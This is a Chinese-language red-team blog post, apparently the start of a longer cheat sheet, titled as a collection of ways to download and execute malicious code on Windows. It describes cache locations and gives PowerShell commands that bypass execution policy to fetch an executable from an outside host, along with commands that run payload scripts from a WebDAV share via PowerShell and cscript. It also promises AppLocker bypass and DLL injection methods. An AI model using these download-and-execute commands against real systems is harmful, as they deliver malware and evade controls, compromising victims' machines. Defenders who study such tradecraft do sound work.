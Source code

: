 ```yaml
---
layout:     post
title:      "Windows上传并执行恶意代码的N种姿势"
date:       2017-12-28
categories: [Pentest, Red Team]

---
```


### 简介

在各种钓鱼、挖矿、勒索、组建僵尸网络、基础渗透、后渗透过程当中，攻击者都会通过一些方法去下载执行恶意代码并执行完成攻击操作，比如前段时间通过Office DDE执行powershell的，利用宏执行VBS的，绕过权限限制完成危险命令执行的等等，都需要用到文件下载/上传姿势，一般说按照途径可以分为：

1. 通过HTTP、FTP URL进行传输类
2. 通过UNC进行传输类
3. 通过磁盘写入类

而payload执行则具体可以分为**有文件类**和**无文件类**，具体分的话就是**内存执行、本地缓存、磁盘文件**

通过HTTP下载的对象的本地缓存将是IE本地缓存，在以下位置：

- *C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files*
- *C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>*

通过指向WebDAV服务器的UNC路径访问的文件将被保存在WebDAV客户机本地缓存中：

- *C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV*

下面我们会总结一些下载和执行的方法，其中也大量包含一些AppLocker ByPass技术和dll注入技术，部分也可以用于后门创建，大家可以根据不同的环境和场景选择使用，当然我会不断地收集各种姿势来更新本文以求更为全面。

### 下载方法

#### Powershell

powershell是最著名的一种方法了，一般的文件下载命令如下

```powershell
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://reverse-tcp.xyz/test.exe','C:\test.exe')
powershell (Invoke-WebRequest http://reverse-tcp.xyz/test.jpg -O test.jpg)
```

当然也可以从UVC读取

```powershell
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

#### CScript/WScript

首先就是执行UNC路径下的文件

```powershell
cscript //E:jscript \\webdavserver\folder\payload.txt
```
